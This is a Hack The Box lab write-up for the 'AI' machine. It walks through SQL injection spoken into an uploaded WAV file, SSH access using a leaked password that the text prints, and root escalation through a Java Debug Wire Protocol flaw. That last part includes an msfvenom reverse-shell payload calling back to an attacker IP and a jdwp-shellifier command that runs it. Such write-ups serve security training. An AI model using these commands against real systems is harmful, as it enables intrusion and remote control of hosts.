 ```yaml
---
title: AI
published: true
---
```

![](/htb_box/img/2020-02-28-08-35-31.png)
# AI 
- [AI](#ai)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [User](#user)
  - [PrivEsc](#privesc)
  - [Root](#root)
## Enumeration

Exploring the website there is a page with an upload a wav file to query. First trying to stego a wav file which gave nothing I gave tts a try. Text to Speech synth is used for vehicles, mobile phones, and IOT devices like Alexa.
Trying numerous websites, https://www.text2speech.org/ which gave inconsistent results I installed festival which gave better results.  

## Exploits - Work
Using basic sqli in text the file is converted to a wav file

    Open single quote, join,SELECT, password, from, users, comment database
    text2wave dbstuff -o might.wav -scale 1.2
    alexa - H,Sq9t6}a<)?q93_

![](/htb_box/img/2019-11-18-11-23-17.png)

Using the credentials I ssh into the box to get user.

## PrivEsc

Basic enumeration reveals root is running a tomcat instance using java debug wire protocol which is exploitable. 

https://ioactive.com/hacking-java-debug-wire-protocol-or-how/

First due to the jdwp being localhost I had to port forward 

    ssh -N -L 8000:127.0.0.1:8000 alexa@10.10.10.163

With that and the script I execute the script changing the method to "java.lang.String.indexOf"

In order to get a shell I must first generate an elf venom like so...

    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.16.99 LPORT=4681 -f elf -o crypto4681

Wget this to the tmp directory on AI chmod +x to make it executable, start a listener locally, and then run the exploit

    python jdwp-shellifier.py -t 127.0.0.1 --break-on "java.lang.String.indexOf" --cmd "/tmp/crypto4681"

![](/htb_box/img/AI.md.png)

